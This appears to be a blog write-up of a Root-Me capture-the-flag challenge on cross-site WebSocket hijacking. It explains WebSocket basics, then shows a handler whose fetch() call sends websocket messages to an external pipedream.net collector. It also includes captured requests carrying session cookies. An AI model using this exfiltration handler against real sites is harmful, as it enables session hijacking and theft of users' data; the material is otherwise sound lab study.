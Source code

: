 ```yaml
---
title: Websockets
Summary: Unprotected websocket challange from root-me.
date: "2024-09-04"
#https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/cross-site-websocket-hijacking-cswsh.md#simple-attack
---
```


![Websocket_1](websockets.svg)

# Introduction

Today I'm going to talk about web sockets, you may have found `wss://` or `ws://` somewhere and wonder what's that, well I'll try to explain the best I can :)

## What are web Sockets?

WebSockets are widely used in modern web applications. They are initiated over HTTP and provide long-lived connections with asynchronous communication in both directions.
WebSockets are used for all kinds of purposes, including performing user actions and transmitting sensitive information. Virtually any web security vulnerability that arises with regular HTTP can also arise in relation to WebSockets communications.

You may have seen some [HTTP 101](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/101) code for `SWITCHING PROTOCOLS`. In most of the cases this is the initiatior of a websocket connection, this request also contains a `Upgrade` header containing the protocol the client wants to switch to, this header will ask the server if it's possible to switch to that protocol.

## What is the difference between HTTP and WebSockets?

Most communication between web browsers and web sites uses HTTP. With HTTP, the client sends a request and the server returns a response. Typically, the response occurs immediately, and the transaction is complete. Even if the network connection stays open, this will be used for a separate transaction of a request and a response.

WebSocket connections are initiated over HTTP and are typically long-lived. Messages can be sent in either direction at any time and are not transactional in nature, and by non-transactional meaning not expecting any response. The connection will normally stay open and idle until either the client or the server is ready to send a message.

WebSockets are particularly useful in situations where low-latency or server-initiated messages are required, such as real-time feeds of financial data, live-chat apps or intercom banners.

## How are WebSocket connections established?

WebSocket connections are normally created using client-side JavaScript like the following:

```js
// for secure websocket connections
var ws = new WebSocket("wss://target-website.com/ws");
// for insecure websocket connections
var ws = new WebSocket("ws://target-website.com/ws");

// A HTTP REQUEST for switching protocols to websocket
GET ws://host/ws HTTP/1.1
Host: ctf07.root-me.org
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: nQ+0IHd8Ey26tEU5mum6QA==
Sec-WebSocket-Extensions: permessage-deflate; client_max_window_bits

// The USUAL response headers
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: a7A1ESC2+XPFwy2coXGo3avSOLg=
```



## Check connection status

If you head to the ["mozilla mdn docs"](https://developer.mozilla.org/en-US/docs/Web/API/WebSocket/readyState) there is a rich page with really useful information about the websocket connection state. This way we can ensure wether we're connected (or not!):

| Value |    State   |                        Description                       |
|:-----:|:----------:|:--------------------------------------------------------:|
| 0     | CONNECTING | Socket has been created. The connection is not yet open. |
| 1     | OPEN       | The connection is open and ready to communicate.         |
| 2     | CLOSING    | The connection is in the process of closing.             |
| 3     | CLOSED     | The connection is closed or couldn't be opened.          |

This is the information that we need!

## Check for javascript files

We can crawl through the website and see some javascript snippet which contains the logic of the vulnerable chat box:

```js
$(function () {
    var input = $('#input');
    var connection = new WebSocket('ws://'+window.location.hostname+'/ws');  
    connection.onopen = function () {};  
    connection.onerror = function (error) {
      alert("An error occured, you will reload the page for you to access a new room !")
      location.reload()
    };
    connection.onmessage = function (message) {
      $("#chatbox").append("You: "+$("#input").val().replace('<','').replace('>','')+"\n")
      $("#chatbox").append("\nBot: "+message["data"].replace('<','').replace('>','')+"\n-------------------------------------------------------------\n")
      $('#chatbox').scrollTop($('#chatbox')[0].scrollHeight);
      $("#input").val("")
    };
    connection.onclose = function(message) {
      $('#chatbox').append("--------------------------END OF COMMUNICATION--------------------------")
    }
    input.keydown(function(e) {
      if (e.keyCode === 13) {
        var msg = $("#input").val();
        if (!msg) {
          return;
        }
        connection.send(msg);
      }
    });
});
```

We can quickly see the `replace('<','').replace('>','')` functions, meaning if we try to encrust some html tags the `</>` characters will be removed. We could elude that removal with some [CSFR](https://owasp.org/www-community/attacks/csrf). The easy and obvious way to proceed is copy pasting the logic except the replace parts.
Let's do it!

## Begin the connection

```javascript
var ws = new WebSocket('ws://'+window.location.hostname+'/ws');
ws.readyState // this should return 1 meaning it's ready to communicate

// now we need a event handler to capture this evnet.
function start (message) {
  $("#chatbox").append("You: "+$("#input").val() + "\n")
  $("#chatbox").append("\nBot: "+message["data"] +"\n-------------------------------------------------------------\n")
  $('#chatbox').scrollTop($('#chatbox')[0].scrollHeight);
  $("#input").val("")
}

// Our CSRF should be something like this.
// Can you notice the liposuction?
ws.onmessage = function (event) {
  fetch('https://eor5pi7epfnejaq.m.pipedream.net/?'+event.data, {mode: 'no-cors'})
}
```

Now, thanks to the websocket [API docs](https://developer.mozilla.org/en-US/docs/Web/API/WebSocket/open_event) we can handle an event (or function) for our very malicious use.


# Let's get this party started

First, let's analyze if there's any CSRF TOKEN, if the connection is secured only by the cookie, we can hijack the user the html files for example, from another domain.
Let's open burp and initiate a WS connection, what do we see?

```html
GET /ws HTTP/1.1
Sec-WebSocket-Version: 13
Origin: http://ctf10.blabla
Sec-WebSocket-Key: iTI6sd0uJHFmgn5gu8kHLA==
Connection: keep-alive, Upgrade
Cookie: _ga_SRYSKX09J7=GS1.1.1659040468.3.1.1659042535.0; _ga=GA1.1.239451001.1658089567; connect.sid=s%3AdFQWhWUSdk2LvNXIraAJOcP3Gdr5Zw5z.1aRYfGUzzd6cOK5KeH6zNeTdzwOcvbFYngmjfzMecyY
Upgrade: websocket
```

Response:

```yaml
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: mi0J6oYY40on/uTajuMWA/m+Ckc=
```

See, 3 cookies are set and there's nothing regarding CSRF tokens, looks nice.... but what about if we delete the cookies and reconnect again, will we be able to interact with the server?

sending ws message:
> Unable to verify your identity, please log in before chatting with me.

We got something!!! Now that we don't have any cookie, the connection is being made but requests are being rejected by WSS: We need some cookies!
Cookies can be gathered from a victim's pov

ws://ctf04.root-me.org/ws

https://infosecwriteups.com/cross-site-websocket-hijacking-cswsh-ce2a6b0747fc



Let's examine an example http websockets request:
```
GET /ws HTTP/1.1
Host: ctf25.root-me.org
Connection: Upgrade
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Upgrade: websocket
Origin: http://ctf25.root-me.org
Sec-WebSocket-Version: 13
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: _ga=GA1.1.1295502163.1725475708; _ga_SRYSKX09J7=GS1.1.1725515082.2.1.1725516116.0.0.0; connect.sid=s%3Ae_W0BpxLsWcg0QMiqPHHqxIdaoMEI6C9.CrORUd6Q7kAXCfSi29lBjT6F5kz0sytGlX5yvM2B7Zs
Sec-WebSocket-Key: P4+G7k4UtIAvDubnRYam8A==
```